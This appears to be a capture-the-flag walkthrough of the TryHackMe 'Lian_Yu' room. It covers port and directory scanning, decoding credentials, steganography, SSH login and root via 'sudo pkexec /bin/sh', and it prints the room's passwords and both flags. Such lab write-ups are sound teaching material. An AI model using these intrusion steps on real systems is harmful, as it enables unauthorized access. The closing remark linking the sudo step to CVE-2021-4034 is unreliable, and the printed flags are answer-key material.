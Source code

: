 # Lian_Yu - TryHackme Writeup Walkthrough

Room link : https://tryhackme.com/room/lianyu


# 1. Scanning the IP
  
  ```bash
  nmap -sC -sV 10.10.228.22 
```
  
  ![1](https://user-images.githubusercontent.com/119054834/204704431-03aa0bc5-a557-45db-be3a-bf06c28897cb.png)

```bash
Ports found ---
port 21/tcp - FTP - (vsftpd 3.0.2)
port 22/tcp - SSH - (OpenSSH 6.7p1)
port 80/tcp - HTTP - (Apache httpd)
port 111/tcp - RPC - (rpcbind) 
```

# 2. Enumeration

```bash
Visit the IP 
```
![ipvisit](https://user-images.githubusercontent.com/119054834/204705444-427b5bd9-cf36-4f4c-b4d7-aff2af9cd883.png)
  ```bash
Now run gobuster for hidden Directories.
```
```bash
gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![hidden dr](https://user-images.githubusercontent.com/119054834/204705829-a864fe7c-5d5a-41c3-9633-4c4911aadc30.png)
```bash
Found a directory : /island
```
```bash
Now go to the browser and serarch http://10.10.228.22/island
```

![highligj](https://user-images.githubusercontent.com/119054834/204706876-b704c5ba-2cc8-42b3-8996-5431943e365e.png)

![gottheword](https://user-images.githubusercontent.com/119054834/204706887-57e0d78d-d11a-4383-aa2f-67ce57c4a86c.png)

```bash
Found out the Code Word by highlighting the page text or viewing the page source.
Code Word -  'vigilante' - (this is our FTP username)
```

```bash
Again run gobuster on /island directory to discover a different directory.
```
```bash
gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![2100](https://user-images.githubusercontent.com/119054834/204708983-f9f739b5-3547-4520-a4a7-9aa0f4c571f7.png)

```bash
Here we found another directory : /2100
```

```bash
Now doing the same again go to the browser and serarch http://10.10.228.22/island/2100
```
![pgsource](https://user-images.githubusercontent.com/119054834/204710087-412a785a-bcb9-4911-9ff6-3a227ac88d6f.png)

```bash
View the page source -- 
```
![ticket](https://user-images.githubusercontent.com/119054834/204710197-498e8a6b-9dfb-4560-a73d-552b80ba94db.png)

```bash
Here it says there is a file with a '.ticket' extension.
```
```bash
Now again run gobuster o look for files with a '.ticket' extension.
```
```bash
gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
![green ticket](https://user-images.githubusercontent.com/119054834/204712070-d4d4d78d-b2e3-469b-9aba-5c60d55f9896.png)

```bash
Found another director : /green_arrow.ticket
```
```bash 
Again going to the browser search http://10.10.228.22/island/2100/green_arrow.ticket.
```
![rty](https://user-images.githubusercontent.com/119054834/204712578-aa367484-238c-44bf-ba96-ebdc69cd0202.png)

```bash
Seems we found an encryption : 'RTy8yhBQdscX' .  So now lets try to decode it ---

Go to https://gchq.github.io/CyberChef/

Use 'FromBase58' to decode it.
```
![hash](https://user-images.githubusercontent.com/119054834/204713677-f62752e5-e6f0-4133-a829-2134dac5a3b2.png)

```bash
Seems like we have cracked it : '!#th3h00d' - This is the FTP Password.
```

# 3. Now the FTP Login

```bash
Now as we have the username and passowrd ---
Username - vigilante
password - !#th3h00d

We can log in to the FTP service - 
```
![img files](https://user-images.githubusercontent.com/119054834/204716038-9301adf5-77a7-4c40-bfbf-ccaed5680bf4.png)

```bash
We got two users: 'vigilante' and 'slade' .
Also found 3 image files in the server. Download them in you system --- Follow the down commands to download the files -- 
```
![download](https://user-images.githubusercontent.com/119054834/204720485-509a69d7-98d2-419b-a0db-559180554bfb.png)

```bash
Now view the image files and we see that 'Leave.me.alone.png' is not opening.
Also the exiftool shows 'File Format error'
```
![pics](https://user-images.githubusercontent.com/119054834/204725099-ee18de71-fe4a-4b75-97b9-8e7b131326e9.png)
![exiftool](https://user-images.githubusercontent.com/119054834/204725349-fddd169c-bf7a-43cb-a4dd-3b2ef3a9237e.png)

```bash
Checking the header file of the image we found that it is actually wrong there.
```
![change](https://user-images.githubusercontent.com/119054834/204731008-cc259d3e-f9e9-489b-8096-1fe53cf3f2af.png)

```bash
The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
```
![correct](https://user-images.githubusercontent.com/119054834/204731135-e25be51b-ff4f-4182-839e-b00d892480e6.png)

```bash
Now lets change it -- 
```
![nowcorrect](https://user-images.githubusercontent.com/119054834/204731235-953dc235-9bd4-4a59-8301-743468b26887.png)

```bash
Now you can open the image file Here you got a password : 'password' 
```
![leaveme](https://user-images.githubusercontent.com/119054834/204734956-d1601a47-f823-4202-a206-e39b937150ad.png)

```bash
Now lets use steghide to extract any hidden files within the other image files.
```
```bash
steghide extract -sf aa.jpg
```
![extr](https://user-images.githubusercontent.com/119054834/204743926-86e6f2ee-527f-4f6c-8cf9-33bb466b4d12.png)

```bash
Now using the password 'password' we got earlier successfully extracted the .jpg file to a ss.zip file. 
We found a  a 'passwd.txt' and a 'shado file' unzipping the ss.zip file. 
```
![m3ta](https://user-images.githubusercontent.com/119054834/204744274-0025a238-5b73-462f-8af3-0d27b94f0b46.png)

```bash
Now cat 'shado' file and you get a password : 'M3tahuman' -- (ssh password)
```
![mt](https://user-images.githubusercontent.com/119054834/204745041-4fae5e35-7b71-4ab5-9b91-2b037dc0faf8.png)

# 4. SSH Login

```bash
Now as we have got the ssh password we can now login -- 
User - slade 
password - M3tahuman
```
```bash
ssh slade@10.10.228.22   
```
![slade](https://user-images.githubusercontent.com/119054834/204746967-0dee761b-e105-4eb7-8160-52b84136945f.png)

```bash
Now that you're logged in search the user.txt flag --
```
```bash
slade@LianYu:~$ ls
user.txt
```
![user](https://user-images.githubusercontent.com/119054834/204747894-2d00d43a-79de-4ef6-9a74-760b325836e8.png)

```bash
user.txt - 'THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}'
```

# 5. Root Privilege Escalation

```bash
To find which commands we can run with root privileges we can run: ---
```
```bash
sudo -l
```
![slade2](https://user-images.githubusercontent.com/119054834/204750224-9ce2ae79-8a5a-4ab0-bc02-44d43f8c7978.png)

```bash
After running sudo -l , it will again ask for slade password -- use the same password - 'M3tahuman'.


Now You see it says we can run the 'pkexec' with root privileges ---- So now we can run run '/bin/sh' program as root & get the root access.
```
```bash
sudo pkexec /bin/sh
```
![root](https://user-images.githubusercontent.com/119054834/204752313-4153109a-d8bb-4191-9ad8-cb91a8d4ecd5.png)

```bash
root.txt - 'THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}'
```

```bash
Submit the flags
```

What is pkexec vulnerability ? 
-- A vulnerability (CVE-2021-4034) in Polkit's pkexec has been weaponized in the wild. This vulnerability is present in the default configuration of all major Linux distributions and can be exploited to gain full root privileges on the system.


I hope this was helpful.

thanks.
